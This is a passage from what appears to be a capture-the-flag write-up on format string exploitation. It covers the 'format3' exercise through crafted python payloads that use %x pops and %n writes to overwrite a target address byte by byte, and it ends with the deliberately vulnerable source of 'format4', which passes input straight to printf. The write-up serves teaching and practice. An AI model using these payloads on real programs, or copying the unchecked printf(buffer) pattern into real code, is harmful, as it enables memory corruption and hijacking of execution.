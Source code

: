3. Correct pop amount is 12. We swap our pattern with the target address, we remove a pop and instead put a '%n' in there.
    ```bash
    python -c "print '\xf4\x96\x04\x08' + '%x%x%x%x%x%x%x%x%x%x%x' + '%n'" > /tmp/format3.in
    ./format3 < /tmp/format3.in
    ```
4. This results in writing target lowest byte pair with 41. Therefore we need to add a couple of bytes in what we print with the '%x' to increase that value:
    ```bash
    python -c "print '\xf4\x96\x04\x08' + '%4x%x%x%x%x%x%x%x%x%x%x' + '%n'" > /tmp/format3.in
    ./format3 < /tmp/format3.in
    ```
5. The next step requires to write to the second-lowest byte pair. We repeat the spamming with a known patter appending it to the string that we already have. Note that we inserted also 'BBBB' in our spamming pattern, because on a first run just with 'AAAA' it looked like the bytes were not aligned properly to result in a clean address after the popping. After playing around, the right amount of pops is 8.
    ```bash
    python -c "print '\xf4\x96\x04\x08' + '%4x%x%x%x%x%x%x%x%x%x%x' + '%n' + 'AABBBBAA%x%x%x%x%x%x%x%x'" > /tmp/format3.in
    ./format3 < /tmp/format3.in
    ```
6. Our destination address is still the target address, but incremented by one as we are writing to a higher position. So, in our new string swap the pattern at the right position with the address, and replace the last '%x' with '%n'. Another two bytes of target will be written.
    ```bash
    python -c "print '\xf4\x96\x04\x08' + '%04x%x%x%x%x%x%x%x%x%x%x' + '%n' + 'AA\xf5\x96\x04\x08AA%473x%x%x%x%x%x%x' + '%n'" > /tmp/format3.in
    ./format3 < /tmp/format3.in
    ```
7. To get the right value in target we have to put a rather high value in the bytes printed by '%x'. This does not matter, even if it overflows, because we will be anyway overwriting the higher byte in the next step.
8. Repeat the last steps for the remaining bytes, remembering to increase the target address by one. When all the bytes are done and contain the right value, the challenge is done.

    ```bash
    python -c "print '\xf4\x96\x04\x08' + '%04x%x%x%x%x%x%x%x%x%x%x' + '%n' + 'AA\xf5\x96\x04\x08AA%473x%x%x%x%x%x%x' + '%n' + 'BBB\xf7\x96\x04\x08%125x%x%x%x%x%x' + '%n'" > /tmp/format3.in
    ./format3 < /tmp/format3.in
    ```

### [Format 04]
Redirect execution in a process

```c
int target;

void hello(){
    printf("code execution redirected! you win\n");
    _exit(1);
}

void vuln(){
    char buffer[512];

    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);

    exit(1);   
}

int main(int argc, char **argv){
```